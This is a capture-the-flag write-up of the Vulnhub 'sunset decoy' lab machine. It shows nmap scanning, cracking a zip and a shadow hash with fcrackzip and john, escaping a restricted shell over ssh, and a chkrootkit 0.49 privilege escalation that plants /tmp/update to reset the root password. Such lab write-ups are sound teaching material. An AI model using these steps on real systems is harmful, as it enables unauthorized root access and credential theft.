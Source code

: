 ```yaml
---
title: Vulnhub - sunset decoy
description: My writeup on sunset decoy box.
categories:
 - vulnhub
tags: vulnhub
---
```


![](https://pbs.twimg.com/media/Dsh2wzTWkAEgsd0.jpg)

Hi all, just pwned this fresh new vulnhub box. A good one to relax after a hard day, let's pwn it!

You can find the machine there > [sunset decoy](https://www.vulnhub.com/entry/sunset-decoy,505/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.123
$ nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-10 02:30 EEST
Nmap scan report for 60832e9f188106ec5bcc4eb7709ce592.zte.com.cn (192.168.1.123)
Host is up (0.00057s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9:b5:3e:3b:e3:74:e4:ff:b6:d5:9f:f1:81:e7:a4:4f (RSA)
|   256 ce:f3:b3:e7:0e:90:e2:64:ac:8d:87:0f:15:88:aa:5f (ECDSA)
|_  256 66:a9:80:91:f3:d8:4b:0a:69:b0:00:22:9f:3c:4c:5a (ED25519)
80/tcp open  http    Apache httpd 2.4.38
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.0K  2020-07-07 16:36  save.zip
|_
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Index of /
MAC Address: 08:00:27:11:D0:A3 (Oracle VirtualBox virtual NIC)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Webpage has only a `save.zip` file let's download it.

```
$ wget -q http://$ip/save.zip
decoy unzip save.zip 
Archive:  save.zip
[save.zip] etc/passwd password: 
```

Needs a password, no problem. Let's fire up my favorite `fcrackzip`:

```
$ fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt save.zip 

PASSWORD FOUND!!!!: pw == manuel
$ decoy unzip -P manuel save.zip 
Archive:  save.zip
  inflating: etc/passwd              
  inflating: etc/shadow              
  inflating: etc/group               
  inflating: etc/sudoers             
  inflating: etc/hosts               
 extracting: etc/hostname 
```

Seems like a copy of `/etc`, let's focus on `shadow` file since it contains user passwords in encrypted format. I saved the user password in a file and i'll run john on it.

```
$ cat password 
296640a3b825115a47b68fc44501c828:$6$x4sSRFte6R6BymAn$zrIOVUCwzMlq54EjDjFJ2kfmuN7x2BjKPdir2Fuc9XRRJEk9FNdPliX4Nr92aWzAtykKih5PX39OKCvJZV0us.
$ john --wordlist=/usr/share/wordlists/rockyou.txt password
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
server           (296640a3b825115a47b68fc44501c828)
1g 0:00:00:06 DONE (2020-07-10 02:36) 0.1631g/s 2798p/s 2798c/s 2798C/s felton..Hunter
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Bingo! ;) Let's login in:

```
$ ssh 296640a3b825115a47b68fc44501c828@$ip
296640a3b825115a47b68fc44501c828@192.168.1.123's password: 
Linux 60832e9f188106ec5bcc4eb7709ce592 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul  9 19:03:50 2020 from 192.168.1.16
-rbash: dircolors: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ cd
-rbash: cd: restricted
```

Oh we're into `rbash`!

`rbash = restricted shell` Restricts some of the system capabilities like commands etc 

Here we can do a trick to bypass it with ssh:

```
$ ssh 296640a3b825115a47b68fc44501c828@$ip -t "bash --noprofile"
296640a3b825115a47b68fc44501c828@192.168.1.123's password: 
bash: dircolors: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ whoami
bash: whoami: command not found
```

All the commands now return `command not found`, we have to fix the `PATH`:

```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ echo $PATH
PATH:/home/296640a3b825115a47b68fc44501c828/
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ PATH=/usr/lib/lightdm/lightdm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ whoami;id
296640a3b825115a47b68fc44501c828
uid=1000(296640a3b825115a47b68fc44501c828) gid=1000(296640a3b825115a47b68fc44501c828) groups=1000(296640a3b825115a47b68fc44501c828)
```

Now privesc is simple, we can see this `SV-502` directory in home. If we follow it we can see a `log.txt` that provide a really useful information:

`2020/06/27 18:56:58 CMD: UID=0    PID=12386  | tar -xvzf chkrootkit-0.49.tar.gz`

System runs a vulnerable version of `chkrootkit`, let's search for possible exploits.

```
$ searchsploit chkrootkit
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                         |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Chkrootkit - Local Privilege Escalation (Metasploit)                                                                                                   | linux/local/38775.rb
Chkrootkit 0.49 - Local Privilege Escalation                                                                                                           | linux/local/33899.txt
```

Let's read `linux/local/33899.txt`:

```
Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
```

`update` file under `/tmp` will be executed as root. We can simply change root password!

```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ touch update; chmod +x update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ nano update 
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ cat update
#!/bin/bash
echo 'root:pwned' | sudo chpasswd
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ su - root
Password: 
root@60832e9f188106ec5bcc4eb7709ce592:~# whoami
root
```

Perfect! ;) Let's read the flag:

```
root@60832e9f188106ec5bcc4eb7709ce592:~# cat root.txt
  ........::::::::::::..           .......|...............::::::::........
     .:::::;;;;;;;;;;;:::::.... .     \   | ../....::::;;;;:::::.......
         .       ...........   / \\_   \  |  /     ......  .     ........./\
...:::../\\_  ......     ..._/'   \\\_  \###/   /\_    .../ \_.......   _//
.::::./   \\\ _   .../\    /'      \\\\#######//   \/\   //   \_   ....////
    _/      \\\\   _/ \\\ /  x       \\\\###////      \////     \__  _/////
  ./   x       \\\/     \/ x X           \//////                   \/////
 /     XxX     \\/         XxX X                                    ////   x
-----XxX-------------|-------XxX-----------*--------|---*-----|------------X--
       X        _X      *    X      **         **             x   **    *  X
      _X                    _X           x                *          x     X_


1c203242ab4b4509233ca210d50d2cc5

Thanks for playing! - Felipe Winsnes (@whitecr0wz)
```

Fun box! :)




